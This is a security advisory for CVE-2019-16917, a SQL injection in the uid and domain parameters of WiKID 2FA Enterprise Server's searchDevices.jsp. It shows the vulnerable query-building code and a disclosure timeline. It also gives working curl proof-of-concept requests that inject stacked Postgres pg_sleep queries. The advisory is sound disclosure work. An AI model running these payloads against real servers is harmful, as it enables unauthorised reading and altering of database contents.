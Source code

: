 A SQL Injection vulnerability, CVE-2019-16917, was identified on `WiKID Systems 2FA Enterprise Server` through version `4.2.0-b2047`.  The <var>uid</var> and <var>domain</var> parameters, used by **searchDevices.jsp**, are not sanitized before being included in a SQL query thus allowing an authenticated user to create, read, update, or delete information in the database.  

## Patch

* **4.2.0.b2047**: <https://downloads.wikidsystems.com/wikid-server-enterprise-4.2.0.b2047-1.noarch.rpm>

## Timeline

* 14 Sep 2019 - Issue discovered on `WiKID Systems 2FA Enterprise Server 4.2.0-b2032` and disclosed to WiKID Systems.
* 26 Sep 2019 - Issue confirmed by WiKID Systems, Patch Released
* XXX Oct 2019 - Public Disclosure

## Description

The source for **searchDevices.jsp** reveals the `buildSearchWhereClause`.  The <var>uid</var> and <var>domain</var> parameters are retrieved in the `buildSearchWhereClause` function:

~~~
191     private void buildSearchWhereClause(HttpServletRequest request) {
192         where = "";
193         <r:b>String uid=request.getParameter("uid");</r:b>
194         <r:b>String domain=request.getParameter("domain");</r:b>
~~~

### domain parameter

If the <var>domain</var> parameter is set and <var>uid</var> parameter is not set, <var>domain</var> is included in a query thus allowing SQL injection here:

~~~
203         }else if(!domain.equals("0") && uid==null){
204             where="where domainid="+<r:var>domain</r:var>;
~~~

If the <var>uid</var> parameter is set, the <var>domain</var> parameter is included in a query thus allowing SQL injection here:

~~~
205         }else if(uid!=null){
...
214             if(!domain.equals("0")){
215                 where=where+" and domainid="+<r:var>domain</r:var>;
216             }
217         }
218     }
~~~

The backend database is Postgres, which supports Stacked Queries.  A value such as `1; select pg_sleep(10);--` will demonstrate the issue the first query will execute followed by a second query instructing the database to sleep; the database and application will hang for 10+ seconds:

~~~{.sh}
SLEEP=10; HOST=$RHOST; COOKIE=$COOKIE; time curl -v -i -s -k  -X 'POST' -H "Host: $HOST" -H "Cookie: JSESSIONID=$COOKIE;" --data-binary "uid=test&domain=1;select pg_sleep($SLEEP);--&action=Search" https://$HOST/WiKIDAdmin/searchDevices.jsp
~~~

### uid parameter

If the <var>uid</var> parameter is set, the logic drops down to following logic where the <var>uid</var> parameter is included in the query:

~~~
205         }else if(uid!=null){
206             uid=uid.toLowerCase().trim();
207             String ask=uid.substring(uid.length()-1);
208             if(ask!=null ){
209 //                uid=uid.substring(0,uid.length()-1);
210                 where="where RTRIM(LOWER(userid)) like LOWER('%"+<r:var>uid</r:var>+"%')";
211 //            }else{
212 //                where="where RTRIM(LOWER(userid))=LOWER('"+uid+"')";
213             }
~~~

A request, such as the following, will trigger the issue, causing the application to delay for 10+ seconds:

~~~{.sh}
SLEEP=10; HOST=$RHOST; COOKIE=$COOKIE; time curl -v -i -s -k  -X 'POST' -H "Host: $HOST" -H "Cookie: JSESSIONID=$COOKIE;" --data-binary "uid=1;select pg_sleep($SLEEP);--&action=Search" https://$HOST/WiKIDAdmin/searchDevices.jsp
~~~
